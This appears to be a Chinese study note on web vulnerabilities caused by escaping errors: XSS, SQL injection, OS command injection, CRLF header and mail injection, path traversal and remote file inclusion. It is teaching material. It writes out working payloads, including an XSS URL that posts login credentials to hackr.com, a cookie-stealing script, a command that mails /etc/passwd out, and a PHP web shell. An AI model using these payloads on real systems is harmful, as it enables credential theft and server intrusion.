

[TOC]

## 转义错误引发安全漏洞

- 客户端验证
- 服务器验证
    - 输入值验证
    - 输出值转义

多数情况下采用 JavaScript 在客户端验证数据（为了尽早辨识输入错误、但验证机制允许篡改数据或关闭 JavaScript）

Web 应用端的输入值验证按 Web 应用内的处理则有可能被误认为具有攻击性意义的代码

输入值验证通常是指：检查是否符合系统业务逻辑的数值或检查字符编码等预防对策

> 针对输出值转义处理：当输出值转义不完全时，会因触发攻击者传入的攻击代码，而给输出对象带来损害

### 跨站脚本攻击

通过存在安全漏洞的网站注册用户的浏览器运行非法的 HTML 标签或 JavaScript 攻击

**动态创建 HTML 部分可能隐藏安全漏洞**

- 利用虚假输入表单骗取用户个人信息
- 利用脚本窃取用户的 Cookie，在不知情情况下发送恶意请求
- 显示伪造的文章或图片

**XSS是攻击者利用预先设置的陷阱触发的被动攻击**，属于被动攻击模式

```shell
# 通过 URI 的查询字段指定 ID，即相当于在表单内自动填写字符串功能
http:/example.com/login?ID=test

# 创建下面这段嵌入恶意代码的 URL，并隐藏植入事先准备好的欺诈邮件或页面内，诱使用户点击该 URL
http://example.com/login?ID="><script>var+func=document.
  getElemenetById("login");+func.action="http://hackr.com/pwget";+func.method=
  "get";</script><span+s="
```

打开嵌入代码的 URL 后，设置好的脚本偷偷开始运行，
当用户表单内输入 ID 和密码后，直接发送到攻击这网站（hackr.com），导致登录信息被窃取

之后，ID 及 密码传给正规网站，正常登录步骤，很难意识到登录信息已遭泄露

**对用户 Cookie 窃取**

```javascript
<script src=http://hackr.com/xss.js></script>
```

该脚本内指定的 `http://hackr.com/xss.js` 文件，采用以下 JavaScript 代码

```javascript
var content = escape(document.cookie);
document.write("");
```

在存在可跨站脚本攻击安全漏洞的 Web 应用上执行上面这段 JavaScript 程序，即可访问该 Web 应用所处域名下的 Cookie 信息

信息发送至攻击者的 Web 网站（ `http://hackr.com/` ）记录在他的登录日志中

### SQL 注入

针对 Web 应用使用的数据库，通过运行非法的 SQL 而产生的攻击

> 当安全隐患有可能引发极大的威胁，直接导致个人信息及机密信息泄露
>
> 在调用 SQL 语句方式存在疏漏，可能被执行恶意注入非法 SQL 语句

- 非法查看或篡改数据库内的数据
- 规避认证
- 执行和数据库服务器业务关联的程序等

- 正常处理操作示例
```sql
-- URL
http://example.com/search?q=test

-- SQL
-- URL 查询字段指定 `q=test`，由 Web 应用传入 SQL 语句构成
SELECT * FROM bookTbi WHERE author = 'test' and flag = 1;
```

- SQL 注入示例

```sql
-- 把指定查询字段上的内容改成 test' --
http://example.com/search?q=test' --

-- SQL
-- “--” 之后内容自动判为注释，因此 `flag = 1` 条件被直接忽略
SELECT * FROM bookTbi WHERE author = 'test' --' and flag = 1;
```

SQL 注入：攻击者将 SQL 语句改变成开发者意想不到的形式以达到破坏结构攻击

```sql
-- 正常
SELECT * FROM table WHERE author = '$q' AND flag = 1;

-- 注入后
SELECT * FROM table WHERE author = 'test' --' AND flag = 1;
```

> 实际发生 SQL 注入攻击时，很有可能会导致用户信息或结算内容等其他数据表的非法浏览及篡改，从而使用户遭受不同程序的损失

### OS 命令注入

通过 Web 应用执行非法操作系统命令达到攻击目的，**调用 Shell 函数的地方会存在被攻击的风险**

可向 Shell 发送命令，让 Windows 或 Linux 操作系统的命令行启动程序（执行 OS 上安装各种程序）

```shell
my $adr = $q->param('mailaddress');
open(MAIL, "¦ /usr/sbin/sendmail $adr");
print MAIL "From: info@example.com\n";
```

程序中的 `open` 函数调用 `sendmail` 命令发送邮件，指定邮件发送地址：`$adr`

```shell
# 攻击者将下面之指定 邮件地址
; cat /etc/passwd | mail hack@example.com

# 程序接收该值，构成以下命令组合

# OS 命令中 分号 解析为分隔多个执行命令
# `sendmail` 命令执行被分隔后，执行 `cat /etc/passwd | mail hack@example.com`
# 将含有 Linux 账户信息 `/etc/passwd` 文件以邮件形式发送给 hack@example.com

| /usr/sbin/sendmail ; cat /etc/passwd | mail hack@example.com
```


### HTTP 首部注入

通过在响应首部字段内插入换行，添加任意响应首部或主体的一种攻击，被动攻击

```shell
# Web 有时会把从外部接收到的数值，赋给响应首部字段 Location 和 Set-Cookie
Location: http://www.example.com/a.cgi?q=12345
Set-Cookie: UID=12345

# 12345 是插入值
# 通过在某些响应首部字段需要处理输出值的地方，插入换行发动攻击
```

- 设置任何 Cookie 信息
- 重定向至任意 URL
- 显示任意的主体（HTTP响应截断攻击）

```shell
# 正常
Location: http://www.example.com/?cat=101

# 替换之前类别 ID 后发送请求
101%0D%0ASet-Cookie:+SID=123456789

# %0D%0A：HTTP报文中的换行符
# 换行后强制将会话 ID 设置成 SID = 123456789 的 Set-Cookie 首部字段

# 发送请求返回响应
Location: http://example.com/?cat=101（%0D%0A ：换行符）
Set-Cookie: SID=123456789

# Set-Cookie 生效后可指定修改任意 Cookie 信息
# 通过和会话固定攻击，可伪装成用户
```

**HTTP 响应截断攻击**：用在 HTTP 首部注入的一种攻击，顺序相同

将两个 `%0D%0A%0D%0A` 并排插入字符串后发送，利用换行做出 HTTP 首部与主体分隔所需的空行，就能显示伪造的主体，达成攻击目的

```http
%0D%0A%0D%0A<HTML><HEAD><TITLE>之后，想要显示的网页内容 <!--
```

在进行首部注入环节，通过发送上面字符串，返回结果

```http
Set-Cookie: UID=（%0D%0A ：换行符）
（%0D%0A ：换行符）
<HTML><HEAD><TITLE>之后，想要显示的网页内容
<!--（原来页面对应的首部字段和主体部分全视为注释）
```

> 触发陷阱的用户浏览器会显示伪造的 Web 页面，让其输入个人信息，从而达到跨站脚本攻击相同的效果
>
> **缓存污染：滥用 HTTP/1.1 中汇集多响应返回功能，会导致缓存服务器对任意内容进行缓存操作**

### 邮件首部注入

Web 应用中的邮件发送功能

通过向邮件首部 `To` 或 `Subject` 内任意添加非法内容发起的攻击

利用存在安全漏洞的 Web 网站，可对任意邮件地址发送广告或病毒邮件

```shell
# 在表单内填入咨询者邮件地址及咨询内容后，以邮件形式发送给网站管理员
bob@hackr.com%0D%0ABcc: user@example.com

# %0D%0A：换行符，接收到换行符，可对 Bcc 邮件地址的追加发送，而这原本是无法指定的
```

使用两个换行可能篡改邮件文本内容并发送

```shell
bob@hackr.com%0D%0A%0D%0ATest Message
```

> 相同方法，可能会改写 `To` 或 `Subject` 等任意首部或向文本添加附件等动作

### 目录遍历攻击

对本不公开的文件目录，通过非法截断其目录路径后，达到访问目的，也称 **路径遍历**

- 通过 Web 应用对文件处理操作时，由外部指定文件名的处理存在疏漏情况下，可使用 `../` 等相对路径定位到 `/etc/passed` 等绝对路径上，因此服务器任意的文件或文件目录皆有可能被访问
- 从而造成 非法浏览、篡改或删除 服务器上的文件

> **其中存在输出值转义的问题，但应该关闭指定对任意文件名的访问权限**

```shell
# 通过查询字段，指定某个文件名，从 /www/log/ 文件目录下读取指定文件
http://example.com/read.php?log=0401.log

# 设置如下查询字段发出请求
http://example.com/read.php?log=../../etc/passwd
```

> **查询字段为了读取攻击者盯上的 `/etc/passwd` 文件，会从 `/www/log/` 目录开始定位相对路径**
>
> **如果 `read.php` 脚本接受对指定目录的访问请求处理，那原本不公开的文件就存在可被访问的风险**

### 远程文件包含漏洞

当部分脚本内容需要从其他文件读入时，利用指定外部服务器的 URL 充当依赖文件，让脚本读取后，运行任意脚本

> PHP 存在的安全漏洞，对 PHP 的 `include` 或 `require`，通过设定，指定外部服务器 URL 作为文件名的功能
>
> **PHP5.2.0 之后默认设定此功能无效**
>
> **存在输出值转义问题，但更应控制对任意文件名的指定**

```shell
# 以 include 读入由查询字段指定文件功能（通过查询字段形式指定文件名，并在脚本内的 include 处读入指定文件）
http://example.com/foo.php?mod=news.php


# 对应脚本源码
$modname = $_GET['mod'];
include($modname)

# 指定如同URL发起请求
http://example.com/foo.php?mod=http://hackr.com/cmd.php&cmd=ls

# 事先在外部服务器准备以下脚本
<? system($_GET['cmd']) ?>
```

